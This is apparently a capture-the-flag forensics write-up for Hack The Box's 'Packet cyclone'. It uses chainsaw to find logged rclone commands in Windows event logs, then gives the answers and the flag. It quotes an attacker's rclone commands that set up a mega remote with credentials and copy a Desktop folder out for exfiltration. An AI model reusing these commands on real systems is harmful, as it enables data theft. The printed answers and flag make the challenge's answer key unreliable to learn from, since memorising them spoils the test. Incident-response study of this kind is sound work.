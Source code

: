 # Packet cyclone (easy)
This is an interactive challenge where we answer questions about some windows event logs.
The challenge makes the hint that `chainsaw` might be useful.

I took the hint and ran chainsaw.
I cloned the github repo and placed it in the `cs` folder inside the challenge
```shell
➜  cs ./chainsaw hunt ../Logs -s ../sigma_rules --mapping mappings/sigma-event-logs-all.yml
```

Here is the first execution of the *rclone* command.
```
CommandLine: '"C:\Users\wade\A
ppData\Local\Temp\rclone-v1.61
.1-windows-amd64\rclone.exe" c
onfig create remote mega user 
majmeret@protonmail.com pass F
BMeavdiaFZbWzpMqIVhJCGXZ5XXZI1
qsU3EjhoKQw0rEoQqHyI'         
Company: https://rclone.org   
CurrentDirectory: C:\Users\wad
e\AppData\Local\Temp\rclone-v1
.61.1-windows-amd64\          
Description: Rsync for cloud s
torage                        
FileVersion: 1.61.1           
Hashes: SHA256=E94901809FF7CC5
168C1E857D4AC9CBB339CA1F6E21DC
CE95DFB8E28DF799961           
Image: C:\Users\wade\AppData\L
ocal\Temp\rclone-v1.61.1-windo
ws-amd64\rclone.exe           
IntegrityLevel: Medium        
LogonGuid: 10DA3E43-D892-63F8-
4B6D-030000000000             
LogonId: '0x36d4b'            
OriginalFileName: rclone.exe  
ParentCommandLine: '"C:\Window
s\System32\WindowsPowerShell\v
1.0\powershell.exe" '         
ParentImage: C:\Windows\System
32\WindowsPowerShell\v1.0\powe
rshell.exe                    
ParentProcessGuid: 10DA3E43-D8
D2-63F8-9B00-000000000900     
ParentProcessId: 5888         
ParentUser: DESKTOP-UTDHED2\wa
de                            
ProcessGuid: 10DA3E43-D92B-63F
8-B100-000000000900           
ProcessId: 3820               
Product: Rclone               
RuleName: '-'                 
TerminalSessionId: 1          
User: DESKTOP-UTDHED2\wade    
UtcTime: 2023-02-24 15:35:07.3
36                            
```

We can use this part of the output to answer the following questions

> What is the email of the attacker used for the exfiltration process? (for example: name@email.com)
majmeret@protonmail.com

> What is the password of the attacker used for the exfiltration process? (for example: password123)
FBMeavdiaFZbWzpMqIVhJCGXZ5XXZI1qsU3EjhoKQw0rEoQqHyI

> What is the Cloud storage provider used by the attacker? (for example: cloud)
mega

> What is the ID of the process used by the attackers to configure their tool? (for example: 1337)
3820

For the coming questions we will need the report of the second command invocation:
```
CommandLine: '"C:\Users\wade\A
ppData\Local\Temp\rclone-v1.61
.1-windows-amd64\rclone.exe" c
opy C:\Users\Wade\Desktop\Reli
c_location\ remote:exfiltratio
n -v'                         
Company: https://rclone.org   
CurrentDirectory: C:\Users\wad
e\AppData\Local\Temp\rclone-v1
.61.1-windows-amd64\          
Description: Rsync for cloud s
torage                        
FileVersion: 1.61.1           
Hashes: SHA256=E94901809FF7CC5
168C1E857D4AC9CBB339CA1F6E21DC
CE95DFB8E28DF799961           
Image: C:\Users\wade\AppData\L
ocal\Temp\rclone-v1.61.1-windo
ws-amd64\rclone.exe           
IntegrityLevel: Medium        
LogonGuid: 10DA3E43-D892-63F8-
4B6D-030000000000             
LogonId: '0x36d4b'            
OriginalFileName: rclone.exe  
ParentCommandLine: '"C:\Window
s\System32\WindowsPowerShell\v
1.0\powershell.exe" '         
ParentImage: C:\Windows\System
32\WindowsPowerShell\v1.0\powe
rshell.exe                    
ParentProcessGuid: 10DA3E43-D8
D2-63F8-9B00-000000000900     
ParentProcessId: 5888         
ParentUser: DESKTOP-UTDHED2\wa
de                            
ProcessGuid: 10DA3E43-D935-63F
8-B200-000000000900           
ProcessId: 5116               
Product: Rclone               
RuleName: '-'                 
TerminalSessionId: 1          
User: DESKTOP-UTDHED2\wade    
UtcTime: 2023-02-24 15:35:17.5
16                            
```

> What is the name of the folder the attacker exfiltrated; provide the full path. (for example: C:\Users\user\folder)
C:\Users\Wade\Desktop\Relic_location

> What is the name of the folder the attacker exfiltrated the files to? (for example: exfil_folder)
exfiltration

> [+] Here is the flag: HTB{3v3n_3xtr4t3rr3str14l_B31nGs_us3_Rcl0n3_n0w4d4ys}
